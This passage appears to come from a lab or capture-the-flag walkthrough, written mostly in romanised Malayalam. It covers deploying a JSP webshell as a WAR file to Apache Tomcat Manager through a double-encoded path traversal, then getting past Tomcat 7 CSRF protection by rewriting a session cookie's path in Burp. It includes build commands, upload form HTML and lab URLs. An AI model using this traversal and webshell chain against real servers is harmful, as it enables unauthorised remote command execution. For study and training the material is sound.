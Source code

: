 ```jsp
	%>
	<pre><%=output %></pre>
```
-->We can now create a directory name `webshell` and put our file (`index.jsp`) inside it :
```shell
$ mkdir webshell$ cp index.jsp webshell
```
-->Now we can build the war file using `jar` (provide with java) :
```
	$ cd webshell
	$ jar -cvf ../webshell.war *
	added manifest
	adding: index.jsp(in = 579) (out= 351)(deflated 39%)
```
-->Our Webshell (`webshell.war`) is now packaged, and we can upload it using the Tomcat Manager.
-->ini upload chyam.upload chyumbol 404 errro varum karanam namal upload chyumbol double encode chytha pathilekala pokunath.so inspect element adich matanam :
```html
	<form method="post" enctype="multipart/form-data" action="/examples/%252e%252e/manager/html/upload?org.apache.catalina.filters.CSRF_NONCE=4F429DF292EEA6B4A46C4A1C37F9BBEC">
<table cellspacing="0" cellpadding="3">
<tbody><tr>
 <td class="row-right">
```
-->ivide action= il namal path matunu.ini upload chyumbol namuk webshell upload chyan patunund ok
-->enit tomcat manager il nokiyal namal upload chytha file kanum.so athil click chyuka.apol athilek pokum.but prathyekich onum nadakila.karanam avideyum namal thane manually dot double encode chyanam ok ie,
->http://ptl-7e383789-61e33605.libcurl.so//examples/%252e%252e/webshell/
-->ini namuk command execute chyam ok

-->ivide namal chyuna challengil tomcat 7 aan use chyunath. ISO enna oru version und athil tomcat 6 aan work chyunath.athan moonamathe video 11 mint ullath.
-->tomcat7 il puthiya security implementations introduce chythitund to prevent CSRF
-->so athukond thane namal ipol video explanation il vaichapole chythal aavila.so athin namal csrf bypass enna kadamba koodi kadakanam.so ath chyam

## Exploitation on tomcat7
-->so sambavam nerthe pole oke thane.aadyam naaml manager path ilek pokuka
->ptl-7e383789-61e33605.libcurl.so/examples/%252e%252e/manager/html
-->ini ee request burp il poi ithinte response nokiyal kanam jsessionid=somecookiie...
kanan patum.ith csrf token aan :
```http
Set-Cookie: JSESSIONID=69F1EDE2BAFEAF1952258F99E7C2E6B7; Path=/manager/; HttpOnly
```
--> ivide nokiyal kanam cookie kk shesham path um koodi koduthitund.
-->ithkond enthan udheshikunathenal.ee app inte real admin ee /mangaer athayath http://url/manager/html  ilek pokumbol session cookie set chyapedum but namal direct url/manager pathilekala pokunath pakaram url/examples/%252e%252e/manager/html ilekan pokunath. logically nokiyal directory traverse nadathi namal url/manager/html ilekan pokunathengilum browser nokumbol namal /examples il ninuman namude path thudangunath.
-->so namude request il session cookie illathathkondan namuk tomcat il puthiya application deploy chyan patathath
-->so namal direst /manager enna path ilekan pokunathengile ee session cookie set aaku
-->so ith bypass chyan namal onukoodi tomcat manager page reload chyuka ie,
->ptl-7e383789-61e33605.libcurl.so/examples/%252e%252e/manager/html
-->enit ith burp il intercept chyuka.enit aa request inte response intercept chyuka
-->enit set-cookie: jess...... ; path=/manager/;  ennath mati path=/  enn kodukuka.apol ini namal ayakuna eth request ilum ee session cookie add ayikolum.apol server enth request um accept chyum
-->ini namal tomcat manager il `war file to deploy`  box inte avide poi inspect chyth 
```html
<action="/examples/%252e%252e/manager/html/upload?org.apache.catalina.filters.CSRF_NONCE=92163FA4016044CD6E1F94FA0EE63035">
```